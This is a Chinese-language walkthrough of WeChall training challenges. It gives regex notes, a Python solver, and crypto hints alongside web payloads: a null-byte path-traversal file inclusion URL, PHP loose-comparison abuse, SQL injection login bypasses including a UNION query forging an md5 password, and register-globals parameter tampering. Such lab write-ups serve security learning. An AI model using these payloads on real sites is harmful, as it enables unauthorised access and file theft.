 #### [Training: Regex](http://www.wechall.net/challenge/training/regex/index.php) ([Training](http://www.wechall.net/challs/Training), [Regex](http://www.wechall.net/challs/Regex))

正则表达式匹配空字符串，并且仅匹配空字符串

```
/^$/
```

^用于匹配字符串头，$匹配字符串尾。

^$用于匹配一行开始/结束的字符串



用于精确匹配



```
[\s\S]
```

匹配所有。\s 是匹配所有空白符，包括换行，\S 非空白符，不包括换行。



```
\w
```

匹配字母、数字、下划线。等价于 [A-Za-z0-9_]



```
\d 匹配数字
\D 匹配任意非数字的字符
```



```
[\w\W] 也可以达到 [\s\S]
```



```
\b	匹配一个单词边界，即字与空格间的位置。
\B	非单词边界匹配。
```

\b 位于要匹配的字符串的开始，它在单词的开始处查找匹配项。如果它位于字符串的结尾，它在单词的结尾处查找匹配项。

```
/ter\b/ 匹配Chapter结尾的ter
/\bCha/ 匹配Chapter开头的Cha
```







```
{n} 匹配n次
{n,} 匹配大于等于n次
{n,m} 匹配大于等于n小于等于m次
```





```
\d{3}
```

匹配三个数字



```
(pattern)：匹配pattern并捕获该匹配的子表达式，可以使用$0…$9属性从结果”匹配”集合中检索捕获的匹配；
```



Regex Group: 

()表示捕获分组，() 会把每个分组里的匹配的值保存起来， 多个匹配值可以通过数字 n 来查看(n是一个数字，表示第 n 个捕获组的内容)



non-capturing group

```
(?:) 匹配pattern但不捕获该匹配的子表达式
```



```
exp1(?=exp2)：查找 exp2 前面的 exp1
/ra(?=1)/ 匹配1前的ra
```

```
(<=exp2)exp1：查找 exp2 后的 exp1
```

```
exp1(?!exp2)：查找后面不是 exp2 的 exp1
```

```
(?<!exp2)exp1：查找前面不是 exp2 的 exp1
```

#### [Training: Programming 1](http://www.wechall.net/challenge/training/programming1/index.php) ([Training](http://www.wechall.net/challs/Training), [Coding](http://www.wechall.net/challs/Coding))



```python
import requests
url = 'http://www.wechall.net/challenge/training/programming1/index.php?action=request'
headers = {
    'WC' :  '13703310-59474-gTryTu3QC2EXBdiS'
}
r = requests.get(url, cookies = headers)
key = r.text
print(re.text)
url2 = 'http://www.wechall.net/challenge/training/programming1/index.php?answer='
requests.get(url2 + key, cookies = headers)
```



#### [Training: PHP LFI](http://www.wechall.net/challenge/training/php/lfi/up/index.php) ([Exploit](http://www.wechall.net/challs/Exploit), [PHP](http://www.wechall.net/challs/PHP), [Training](http://www.wechall.net/challs/Training))

字符串截断(用法已经被抛弃)

http://www.wechall.net/challenge/training/php/lfi/up/index.php?file=../../solution.php%00



#### [PHP 0817](http://www.wechall.net/challenge/php0817/index.php) ([PHP](http://www.wechall.net/challs/PHP), [Exploit](http://www.wechall.net/challs/Exploit))

http://www.wechall.net/challenge/php0817/index.php?which=solution

php中switch 执行的是松散比较 ==

两边变量为string或者null， 执行数字或者数值 ，"42" == 42 true

同时对 "php" == 0 true



#### [Training: Crypto - Transposition I](http://www.wechall.net/challenge/training/crypto/transposition1/index.php) **([Crypto](http://www.wechall.net/challs/Crypto), [Training](http://www.wechall.net/challs/Training))**

ihipfcngaicd

临位互换



#### [Training: Crypto - Substitution I](http://www.wechall.net/challenge/training/crypto/simplesub1/index.php) ([Crypto](http://www.wechall.net/challs/Crypto), [Training](http://www.wechall.net/challs/Training))

https://quipqiup.com/



#### [Training: MySQL I](http://www.wechall.net/challenge/training/mysql/auth_bypass1/index.php) ([MySQL](http://www.wechall.net/challs/MySQL), [Exploit](http://www.wechall.net/challs/Exploit), [Training](http://www.wechall.net/challs/Training))

admin' or '1' = '1

```bash
select * from users where username='admin' or '1'='1' and password='123' or '1'='1
```





#### [Training: MySQL II](http://www.wechall.net/challenge/training/mysql/auth_bypass2/index.php) ([MySQL](http://www.wechall.net/challs/MySQL), [Exploit](http://www.wechall.net/challs/Exploit), [Training](http://www.wechall.net/challs/Training))



```sql
mysql> select 1,2,3,4,5,6;
+---+---+---+---+---+---+
|1  | 2 | 3 | 4 | 5 | 6 |
+---+---+---+---+---+---+
|1  | 2 | 3 | 4 | 5 | 6 |
+---+---+---+---+---+---+

mysql> select * from users;
+---+---+---+
|id |usn|pwd|
+---+---+---+
|1  |xx |122|
|2  |xx |123|
|3  |xx |123|
+---+---+---+

mysql> select 1,2,3 from users;
+---+---+---+
|1  |2  |3  |
+---+---+---+
|1  |2  |3  |
|1  |2  |3  |
|1  |2  |3  |
+---+---+---+
```



```php
$password = md5($password);
$query = "SELECT * FROM users WHERE username='$username'";
```



题目中表格属性为

```
/* TABLE STRUCTURE
CREATE TABLE IF NOT EXISTS users (
userid    INT(11) UNSIGNED AUTO_INCREMENT PRIMARY KEY,
username  VARCHAR(32) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL,
password  CHAR(32) CHARACTER SET ascii COLLATE ascii_bin NOT NULL
) ENGINE=myISAM;
*/
```



union会将查找到的结果合并

所以我们需要填充3列



123' union select 1, 'admin', md5('123');#

123



#### [Training: Register Globals](http://www.wechall.net/challenge/training/php/globals/index.php) ([Exploit](http://www.wechall.net/challs/Exploit), [PHP](http://www.wechall.net/challs/PHP), [Training](http://www.wechall.net/challs/Training))

?username=admin&password=123&login[0]=admin



## [Training: GPG](http://www.wechall.net/challenge/training/crypto/gpg/index.php) ([Crypto](http://www.wechall.net/challs/Crypto), [Training](http://www.wechall.net/challs/Training))

GPG suite Mac

生成密钥

解密时 右键文件-> 服务 -> GPG decrypt



